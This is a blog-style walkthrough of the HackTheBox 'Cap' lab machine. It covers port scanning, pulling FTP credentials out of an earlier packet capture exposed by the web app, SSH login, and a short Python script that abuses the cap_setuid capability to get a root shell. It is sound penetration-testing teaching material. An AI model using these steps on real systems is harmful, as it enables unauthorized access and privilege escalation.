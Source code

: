 ```yaml
---
title: "HackTheBox: Cap - Walkthrough"
description: "A writeup for the Cap machine on HackTheBox"
excerpt_separator: "<!--more-->"
toc: true
toc_label: "HackTheBox - Cap"
toc_icon: "stream"
toc_sticky: true
categories:
  - hackthebox
tags:
  - Writeup
  - HackTheBox
  - CTF
---
```

## Introduction

[Cap](https://www.hackthebox.eu/home/machines/profile/351) is an easy difficulty room on the [HackTheBox](https://app.hackthebox.eu/) platform. The box consists of a web application that allows us download pcap files. One of the pcap files contains credentials we can use to login into the FTP server to gte the first flag. After this, we can use the same credentials to login to the box via SSH as the user and exploit a linux SUID capability that allows us to obtain a root shell via python.

---

## Recon

We start off with by running nmap on the target, scanning for all ports using the stealth scan option `-sS` and performing service and version detection `-sV`.

> *The services on the machine can take some time to start up, so give the machine a minute or two before starting the scan.*

`sudo nmap -sS -sV -p- 10.10.10.245 -oN cap.nmap`

```
$ sudo nmap -sS -sV -p- 10.10.10.245 -oN palsforlife.nmap
Nmap scan report for 10.10.10.245
Host is up (0.029s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```

We can see that ports `21`, `22` and `80` are open. Let us enumerate each of these ports.

---

### Port 21

We can check if anonymous login is enabled.

```
$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
```

It appears that a password is required. We could try bruteforcing the ftp login using the `hydra` and the following [wordlist](https://github.com/danielmiessler/SecLists/raw/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt), however it appears that none of these work.

Let us revisit this port later.

---

### Port 22

We can try to fingerprint what is version of SSH is running on port 22 along with the possible operating system.

```
$ nc -nvvv 10.10.10.245 22
(UNKNOWN) [10.10.10.245] 22 (ssh) open
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
```

It appears that it is running Ubuntu. Aside from this, we cannot do much with this port. Let us move on. 

---

### Port 80

From our nmap scans, we are able to determine that a Gunicorn webserver is running on port 80. Opening [http://10.10.10.245/](http://10.10.10.245/) in a web browser, we find a security dashboard application, which appears to be a static dashboard. 

![web-app-dashboard](/img/cap/port80-dashboard.png)

Browsing through the application, we find that application has functionalities to perform various network based operations such as IP config and packet capture. 

The tab titled `Security Snapshot` has the functionality to download a packet capture of the last 5 seconds along with various metrics after an analysis of the capture.

![pcap-snapshot-tab](/img/cap/snapshot-tab.png)

Clicking the download button will download a file called `1.pcap`. Opening the file in Wireshark, we can see that the traffic that was captured in the last 5 seconds. 

### Credential found in pcap file

Notice how the URL is http://10.10.10.245/data/1. By observing the traffic in a proxy like BurpSuite, we can see that clicking on the download button makes a GET request to http://10.10.10.245/download/1.

It is quite possible that there are other files that were made before this one. Let us try to get `http://10.10.10.245/download/0`.

![0-pcap](/img/cap/0-pcap.png)

Opening this file, we can see username and password for user `nathan` in the FTP data.

![0-pcap](/img/cap/nathan-creds.png)

Using these credentials, we will be able to login to the FTP server.

### Login via SSH 

We can login via SSH using Nathan's credentials, we can see that user.txt is present.

```
$ cat user.txt 
5194****************************
```

Note that we can login to the FTP server with the same credentials and find user.txt there as well since the ftproot is in nathan's home directory.

![ftp-dir](/img/cap/ftp-dir.png)

---

## Privilege Escalation

### Enumeration

We can upload the linPEAS script onto the target via scp to determine possible privilege escalation vectors.

```
$ scp ./linpeas.sh nathan@10.10.10.245:/dev/shm/
nathan@10.10.10.245's password: 
linpeas.sh                                    100%  442KB   2.8MB/s   00:00
```

We run the script and find that there is an interesting linux capability for python.

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The `cap_setuid` capability allows python to set the effective user id of the created process. This means we can very easily abuse it to escalate privileges to root.

### Escalate to root

Let us create a simple python script that should give us an elevated shell

```
import os
os.setuid(0)
os.system("/bin/bash")
```

Execute using `/usr/bin/python3.8 <filename>.py`.

This will give us a root shell.

![root-shell](/img/cap/root-shell.png)

We can now access root.txt in `/root`

```
# cat root.txt
cc55****************************
```

---